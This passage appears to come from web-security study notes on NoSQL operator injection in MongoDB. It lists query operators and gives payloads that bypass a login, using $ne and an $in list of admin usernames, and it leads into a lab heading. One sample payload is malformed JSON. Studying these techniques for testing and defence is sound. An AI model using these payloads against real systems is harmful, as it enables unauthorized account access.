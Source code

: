 * `$where` - Matches documents that satisfy a JavaScript expression.
* `$ne` - Matches all values that are not equal to a specified value.
* `$in` - Matches all of the values specified in an array.
* `$regex` - Selects documents where values match a specified regular expression.

In JSON messages:

`{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`.

In URL-based inputs:

`username=wiener` becomes `username[$ne]=invalid`

If this doesn't work, you can try the following:

1. Convert the request method from `GET` to `POST`.
2. Change the `Content-Type` header to `application/json`.
3. Add JSON to the message body.
4. Inject query operators in the JSON.

#### Detecting operator injection in MongoDB

`{"username":{"$ne":"invalid"},"password":{"peter"}}`

If the `$ne` operator is applied, this queries all users where the username is not equal to `invalid`.

If both the username and password inputs process the operator, it may be possible to bypass authentication using the following payload:

`{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}`

To target an account, you can construct a payload that includes a known username, or a username that you've guessed. For example:

```
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

### Lab: Exploiting NoSQL operator injection to bypass authentication

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
